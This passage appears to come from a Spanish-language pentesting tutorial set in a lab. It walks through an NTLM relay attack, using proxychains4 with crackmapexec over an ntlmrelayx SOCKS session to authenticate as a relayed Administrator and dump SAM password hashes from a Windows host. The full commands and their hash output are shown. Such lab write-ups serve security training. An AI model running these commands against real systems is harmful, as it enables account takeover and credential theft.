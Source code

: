 Lo que estamos haciendo con esto es redirigir todo el trafico de red de la herramienta que ejecutemos a nuestro `localhost` en el puerto `1080` que es justamente donde esta escuchando este `NTLM Relay`.

Ahora vamos a utilizar la herramienta `crackmapexec` pero utilizando la herramienta `proxychange4`, lo que haremos es que redirigiremos ese trafico de red que va a generar `crackmapexec` o la herramienta que pongamos despues de `proxychange4` y lo va hacer en `127.0.0.1 1080` que es donde tenemos la sesion activa:

```shell
proxychains4 crackmapexec smb 192.168.5.208 -u 'Administrator' -d 'corp'
```

Tendremos que poner el usuario el cual nos aparezca donde capturo en la sesion de `ntlmrelayx` en mi caso fue el `Administrador`.

Info:

```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:135 <--denied
SMB         192.168.5.208   445    WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:corp) (signing:False) (SMBv1:False)
```

Con esto estamos viendo que se esta ejecutando correctamente, por lo que ahora vamos a mandar las peticiones que queramos como si fueramos el usuario `Administrador` en este caso:

```shell
proxychains4 crackmapexec smb 192.168.5.208 -u 'Administrator' -d 'corp' -p '1234' --sam
```

En el `-p` especificamos el `password` pero en este caso podremos poner lo que sea ya que estamos autenticados y cualquier palabra nos servira como contraseña ya que lo `omitira` por asi decirlo.

En este caso lo que haremos sera volcar la `SAM` con esta sesion de forma `proxyficada`.

Info:

```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:135 <--denied
SMB         192.168.5.208   445    WS01             [*] Windows 10 / Server 2019 Build 19041 (name:WS01) (domain:corp) (signing:False) (SMBv1:False)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.5.208:445  ...  OK
SMB         192.168.5.208   445    WS01             [+] corp\Administrator:1234 (Pwn3d!)
SMB         192.168.5.208   445    WS01             [+] Dumping SAM hashes
SMB         192.168.5.208   445    WS01             Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.5.208   445    WS01             Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.5.208   445    WS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.5.208   445    WS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:5ed544e71abe56b376b7993b21946520:::
SMB         192.168.5.208   445    WS01             santiago:1001:aad3b435b51404eeaad3b435b51404ee:7ce21f17c0aee7fb9ceba532d0546ad6:::
SMB         192.168.5.208   445    WS01             [+] Added 5 SAM hashes to the database
```
